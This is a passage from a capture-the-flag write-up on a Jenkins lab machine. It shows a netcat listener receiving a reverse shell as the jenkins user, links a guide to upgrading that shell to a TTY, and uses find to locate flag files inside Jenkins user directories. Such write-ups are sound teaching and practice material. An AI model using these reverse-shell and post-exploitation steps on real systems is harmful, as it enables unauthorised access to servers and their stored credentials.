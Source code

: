 And we're in:

```bash
└─$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.66.69.69] from (UNKNOWN) [10.150.150.38] 58262
whoami
jenkins
```

Then I followed [this](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) procedure to upgrade my rev shell to a very nice TTY.

# [](#header-1)Low priv shell as jenkins user.

Inside the machine, under the `/var/lib/jenkins` we found the FLAG70.txt:

![](assets/FLAG70.png)

Then if we perform a search for FLAG69 we found the following:

```bash
jenkins@dev1:~$ find / -name FLAG69* 2>/dev/null
/var/lib/jenkins/users/FLAG69_7705914462374786576
jenkins@dev1:~$
```

Which turns to be a directory. Inside it there is a `config.xml` file, and when we read it we found the first flag:

![](assets/FLAG69.png)
